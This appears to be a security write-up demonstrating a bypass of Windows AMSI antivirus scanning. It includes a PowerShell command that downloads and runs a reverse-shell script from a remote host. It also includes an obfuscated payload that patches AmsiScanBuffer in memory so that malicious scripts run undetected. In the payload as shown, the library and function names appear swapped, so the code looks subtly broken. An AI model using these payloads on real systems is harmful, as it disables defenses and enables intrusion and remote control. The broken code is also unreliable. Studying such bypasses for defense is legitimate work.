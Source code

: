 ## Table of Contents
- [**Outline**](#section-0)
- [**Antimalware Scan Interface Explanation**](#section-1)
- [ **Proof of Concept - Bypassing 2023 Windows 10 Pro AMSI**](#section-2)
- [ **Obfuscation Methodolgy Anlysis**](#section-3)
- [ **Credits & Reference**](#section-4)


## Outline
![](/assets/AV/diagram.png)  

AMSI (Antimalware Scan Interface) is a Windows feature introduced in Windows 10 and Windows Server 2016. Its primary purpose is to provide an interface that allows antivirus and other security solutions to scan and inspect scripts and code in real-time at runtime

By default windows defender interacts with the AMSI API to scan PowerShell scripts, VBA macros, JavaScript and scripts using the Windows Script Host technology during execution. When a user executes a script or initiates PowerShell, the AMSI.dll is injected into the process memory space. Prior to execution the following two API’s are used by the antivirus to scan the buffer and strings for signs of malware. This ultimately prevents arbitrary execution of code.

The goal of this write-up is to demonstrate bypassing the most up to date AMSI protection measure implemented in Windows 10 Pro (2023/07/28) 
# AMSI Bypass Technique
The following evasive techniques aim to avoid detection by antivirus and security software.  

##### Code Fragmentation: 
Divide codes into smaller components and assemble at runtime, evading static analysis.  

##### Obfuscation: 
Utilize obfuscation techniques to obscure the true intent of the script, making it challenging for AMSI scanners to interpret the code accurately.  

#####  Memory Patching: 
Modify the AMSI Dynamic Link Library (DLL) in memory to either disable or alter its functionality temporarily.  

#### Powershell Downgrade: 
Downgrade to Windows PowerShell 2.0. It lacks essential security controls like AMSI protection, making it susceptible to exploitation as a means of evasion.

## Proof of Concept

![](/assets/AV/Final.gif)  

To verify that AMSI is correctly functioning, the tester first tried to initiate a reverse TCP connection through powershell using the below command
```bash
IEX (New-Object Net.WebClient).DownloadString('http://192.168.20.128:8443/Invoke-PowerShellTcp.ps1')
```
However, as seen above, AMSI sucessfully flags the activity as  `malicious` and proceeds to block the reverse shell connection. 
## Memory Patching
In order to bypass AMSI, the tester utilzed the following payload which was referenced [Red Team Playbook](https://www.xn--hy1b43d247a.com/defense-evasion/amsi-bypass)
```bash
$thing = @"
// thing 
// using System.Collections.ArrayList;
using System; // thingssa
using System.Runtime.InteropServices;
public class payload {
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
}
"@
Add-Type $thing
[System.Collections.ArrayList]$Patch = 0xB8, 0x57, 0x90, 0x90, 0x00, 0x90, 0x07, 0x80, 0x90, 0xC3
$Patch.Remove(0x90)
$Patch.Remove(0x90)
$Patch.Remove(0x90)
$Patch.Remove(0x90)

[byte[]]$byteArrayFun = "","","","","",""
$byteArrayFun[0] = $Patch[0]
$byteArrayFun[1] = $Patch[1]
$byteArrayFun[2] = $Patch[2]
$byteArrayFun[3] = $Patch[3]
$byteArrayFun[4] = $Patch[4]
$byteArrayFun[5] = $Patch[5]

$to = "Am" +"s" + "iSc" + "a" + "nBu" + "ffer"
$connect = "a" + "m" + "si" + ".dl" + "l"
$librarz = [payload]::LoadLibrary($to)
$dest = [payload]::GetProcAddress($librarz, $connect)
$p = 0
[payload]::VirtualProtect($dest, [uint32]5, 0x40, [ref]$p)

[System.Runtime.InteropServices.Marshal]::Copy($byteArrayFun, 0, $dest, 6)
```

By patching the `AmsiScanBuffer` function in AMSI.dll with specific assembly code (mov eax, 0x80070057 and ret), the function will immediately return an error code without scanning PowerShell code. This bypasses AMSI, allowing the attacker's PowerShell code to run undetected. 






## Weaponization

## Reference
-레드팀 플레이북 Read team playbook, Offensive Security